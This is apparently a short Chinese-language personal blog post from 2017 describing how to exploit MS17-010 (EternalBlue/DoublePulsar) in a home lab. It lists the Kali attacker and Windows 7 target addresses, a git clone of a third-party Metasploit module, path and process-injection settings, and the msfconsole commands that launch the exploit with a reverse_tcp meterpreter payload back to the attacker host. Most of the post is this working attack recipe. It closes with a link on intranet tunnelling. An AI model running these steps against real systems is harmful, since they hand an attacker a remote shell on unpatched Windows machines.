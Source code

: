 ```yaml
---
title: MS17-010
date: 2017-5-14 8:50:30
tags: 系统安全
toc: true
---
```


> 本来不做记录，后爆发全球规模蠕虫
### 环境
> python 2.6.6  
> wine32  
> 靶机win7有360 ip 192.168.1.123  
> kali  ip 192.168.1.120  

### msf配置
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit/
```
after 相应的文件copy到/usr/share/metasploit-framework/modules/exploits/windows/smb/  我把文件更名为ms17-010
修改.rb文件为相应路径

OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/deps/']),
		OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/deps/']),
  
OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])

这一句'wlms.exe'有人修改为'explorer',我在测试时会不稳定断开连接

### msf利用
```bash

use exploit/windows/smb/ms17-010
set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set rhost 192.168.1.123  
set lhost 192.168.1.120  
show option  
exploit  
```
### 内网穿透
[浮萍链接](http://fuping.site/2017/04/21/MS17-010-Vulnerability-Detection-And-Ngrok/)